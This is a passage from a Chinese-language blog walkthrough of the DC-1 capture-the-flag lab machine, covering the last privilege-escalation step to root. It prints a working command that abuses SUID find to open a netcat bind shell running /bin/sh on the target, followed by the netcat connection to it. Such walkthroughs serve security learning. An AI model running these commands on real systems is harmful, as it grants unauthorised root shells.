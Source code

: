 ![image-20230321152454548](https://s3.xiabee.cn/pic/2023/03/c1010b31026bac7c8298d05790d6f0f10bc3d5d5b94b0ee495f027ca26d63329.png)

![image-20230321152502787](https://s3.xiabee.cn/pic/2023/03/b42be90adb660b2755c93b0d6fc066fb80583be0256a128de4aa040a93209dc2.png)



> Can you use this same method to find or access the flag in root?Probably. But perhaps it's not that easy. Or maybe it is? 
>
> flag4 提示：能否提权为root



### Final FLAG

结合我们 flag3 的提示，find 有执行权限，我们可以通过 find 提权： 网上其他骚造作很多，这里直接使用 nc 反弹 shell：

```bash
find flag4.txt -exec nc -lvp 2333 -e /bin/sh \;
# 靶机开启监听
```

![image-20230321152605468](https://s3.xiabee.cn/pic/2023/03/0e948ae428896be61fe4a5338a0bf8ee741b28c33b9a628bf0734f9c2db6a458.png)



```bash
nc 192.168.80.139 2333
# 回到 kali 主机，进入连接
```

![image-20230321152638721](https://s3.xiabee.cn/pic/2023/03/95ba79aef0fffeea958deff70f86327cffbb0eb3a1245b358792a2ad6ca97218.png)

以 root 身份连接

![image-20230321152648553](https://s3.xiabee.cn/pic/2023/03/10e39676a7984ffb51cb523833191d40f107cea102b9ba95668e97c74943198e.png)



finalflag

> Well done!!!! Hopefully you've enjoyed this and learned some new skills. You can let me know what you thought of this little journey by contacting me via Twitter - @DCAU7





## 小结 

菜狗博主的DC靶机第一次实践，看起来很简单，实际上找方法找了很久......

以后还得多加练习 QAQ 这次学到了原来 find 可以这么骚...... 

~~今天分享就到这里，下次再更新后续靶机攻击过程~~